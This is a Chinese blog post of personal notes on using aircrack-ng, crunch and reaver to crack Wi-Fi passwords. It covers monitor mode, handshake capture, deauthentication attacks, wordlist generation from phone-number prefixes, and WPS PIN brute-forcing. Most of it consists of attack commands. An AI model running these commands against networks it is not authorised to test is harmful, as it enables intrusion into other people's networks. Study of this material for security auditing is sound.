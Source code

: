 ```yaml
---
title: "无线网络安全审计工具"
date: 2022-01-07T20:00:00+08:00
draft: false
authors: ["SenZyo"]
tags: [Hack,Linux,Network,Security]
featuredImagePreview: ""
summary: aircrack-ng, crunch 和 reaver 使用笔记。
---
```


{{< admonition type=abstract title="总结" open=true >}}
1. 事实上利用字典穷举完全靠运气。
2. 通过爆破WPS可行性高但reaver总报错: `[!] WPS transaction failed (code: 0x04), re-trying last pin`, [解决方法](https://forum.ubuntu.org.cn/viewtopic.php?t=459198)并没有效果。
{{< /admonition >}}

## aircrack-ng

通过抓取握手包后将其破解以获取密码。

### 准备

#### 硬件

网卡芯片需要支持监听和注入, 此处用的芯片是RTL8187L。

#### 软件

1. 安装aircrack-ng: 

    ```bash
    apt install aircrack-ng
    ```

2. 查看网卡状态信息: 

    ```bash
    iwconfig
    ```

3. 关闭网卡`wlx012345678`: 

    ```bash
    ip link set wlx012345678 down
    ```

4. 重命名网卡`wlx012345678`为`wl`: 

    ```bash
    ip link set wlx012345678 name wl
    ```

5. 打开网卡`wl`: 

    ```bash
    ip link set wl up
    ```

### 监听

1. 为网卡`wl`开启监听模式: 

    ```bash
    airmon-ng start wl
    ```

2. 查看网卡状态信息: 

    ```bash
    iwconfig
    ```

    发现网卡`wl`变成了`wlmon`

3. 监听附近Wi-Fi: 

    ```bash
    airodump-ng wlmon
    ```

### 抓包

```bash
airodump-ng --channel 7 -w captured --bssid XX:XX:XX:XX:XX:XX wlmon
```

### 攻击

```bash
aireplay-ng -0 0 -a XX:XX:XX:XX:XX:XX -c 3C:CD:5D:93:A7:08 wlmon
```

### 破解

1. 关闭监听模式: 

    ```bash
    airmon-ng stop wlmon
    ```

2. 使用字典进行暴力破解: 

    ```bash
    aircrack-ng -w 桌面/dic.txt 桌面/captured-01.cap
    ```

## crunch

用来制作字典, 参考[crunch命令详解以及使用方法](https://blog.csdn.net/qq_42025840/article/details/81125584)。

### 安装

```bash
apt install crunch
```

### 例子

1. 生成8位数密码, 只包含数字: 

    ```bash
    crunch 8 8 -f /usr/share/crunch/charset.lst numeric -o num8.txt
    ```

2. 生成11位手机号: 

    ```bash
    crunch 11 11 +0123456789 -t 134%%%%%%%% -o phone134.txt
    ```

> 号码开头字段参考[手机归属-查号吧](https://www.chahaoba.com/%E6%89%8B%E6%9C%BA%E5%BD%92%E5%B1%9E)、[三大运营商手机号段](https://blog.csdn.net/lihefei_coder/article/details/81416948)

| 普通用户号段 | 中国移动                     | 中国联通      | 中国电信           |
| ------------ | ---------------------------- | ------------- | ------------------ |
| 13号段       | 134、135、136、137、138、139 | 130、131、132 | 133                |
| 14号段       | 147                          | 145           | 149                |
| 15号段       | 150、151、152、157、158、159 | 155、156      | 153                |
| 16号段       |                              | 166           |                    |
| 17号段       | 172、178                     | 171、175、176 | 173、177           |
| 18号段       | 182、183、184、187、188      | 185、186      | 180、181、189      |
| 19号段       | 195、197、198                | 196           | 190、191、193、199 |

还可以设置为每次生成的文件大小为20M: 

```bash
crunch 11 11 +0123456789 -t 134%%%%%%%% -b 20mib -o START 
```

## reaver

{{< admonition type=quote title="参考链接" open=true >}}
1. [Kali如何使用Reaver破解Wi-Fi网络的WPA/WPA2密码](https://blog.csdn.net/weixin_40586270/article/details/81280928)
2. [利用 reaver 进行无线安全审计](http://blkstone.github.io/2015/08/19/reaver-tutorial/)
{{< /admonition >}}

通过爆破WPS的PIN来达到目的。

1. 为网卡`wl`开启监听模式: 

    ```bash
    airmon-ng start wl
    ```

2. 监听附近Wi-Fi: 

    ```bash
    airodump-ng wlmon
    ```

3. 找出开启了WPS功能、可以使用PIN登录的路由器: 

    ```bash
    wash -i wlmon
    ```

    > ENC需要为WPA或WPA2, AUTH需要为PSK

4. 攻击: 

    ```bash
    reaver -i wlmon -c 7 -b XX:XX:XX:XX:XX:XX -S -d 9 -t 9 -vv
    ```

5. 获取到PIN后, 以后即便路由器更换了密码, 也可以很迅速地通过PIN重新获得新密码。举例: 

    ```bash
    reaver -i wlmon -b xx:xx:xx:xx:xx:xx -p 12345670
    ```
